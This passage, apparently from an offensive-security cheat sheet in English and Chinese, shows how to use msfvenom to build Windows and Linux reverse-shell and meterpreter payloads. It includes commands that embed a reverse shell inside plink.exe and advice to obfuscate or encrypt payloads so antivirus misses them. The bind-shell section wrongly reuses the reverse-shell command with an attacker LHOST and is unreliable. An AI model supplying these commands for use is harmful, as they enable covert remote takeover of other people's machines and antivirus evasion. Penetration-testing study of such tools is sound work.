 Keep in mind that embedding a payload inside an executable file may trigger antivirus or security software. To avoid detection, you can use techniques such as obfuscation or encryption to make the payload more difficult to detect.
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -x /usr/share/windows-binaries/plink.exe -f exe -o plinkmeter.exe
```
### 反向 Shell

A reverse shell is a type of shell in which the target machine initiates the connection to the attacker's machine. This allows the attacker to gain remote access to the target machine. In the context of Linux payloads, a reverse shell payload is designed to establish a reverse shell connection from the target Linux machine to the attacker's machine.

To create a reverse shell payload using `msfvenom`, you can use the following command:

```plaintext
msfvenom -p <payload> LHOST=<attacker IP> LPORT=<attacker port> -f <format> -o <output file>
```

- `<payload>`: The payload to use. This can be any compatible payload, such as `linux/x86/shell_reverse_tcp`.
- `<attacker IP>`: The IP address of the attacker's machine.
- `<attacker port>`: The port on the attacker's machine to listen for the reverse shell connection.
- `<format>`: The output format for the payload. This can be any supported format, such as `elf`, `raw`, or `exe`.
- `<output file>`: The file to save the generated payload.

For example, to create a reverse shell payload using the `linux/x86/shell_reverse_tcp` payload, with the attacker's IP address set to `192.168.0.100` and the attacker's port set to `4444`, you can use the following command:

```plaintext
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.0.100 LPORT=4444 -f elf -o reverse_shell.elf
```

This will generate a Linux ELF binary file named `reverse_shell.elf`, which can be executed on the target machine to establish a reverse shell connection to the attacker's machine.
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f elf > reverse.elf
msfvenom -p linux/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf
```
### 绑定 Shell

绑定 Shell 是一种常见的远程访问技术，它允许攻击者在目标系统上建立一个监听端口，以便通过网络连接进行远程访问。攻击者可以使用 Metasploit 的 `msfvenom` 工具生成绑定 Shell 的有效载荷。

以下是使用 `msfvenom` 生成绑定 Shell 的示例命令：

```plaintext
msfvenom -p <payload> LHOST=<attacker IP> LPORT=<attacker port> -f <format> -o <output file>
```

在命令中，你需要替换以下参数：

- `<payload>`：选择适合你的目标系统的有效载荷。
- `<attacker IP>`：攻击者的 IP 地址，用于建立与目标系统的连接。
- `<attacker port>`：攻击者监听的端口号。
- `<format>`：生成有效载荷的格式，如 `exe`、`elf`、`dll` 等。
- `<output file>`：生成的有效载荷文件的输出路径和文件名。
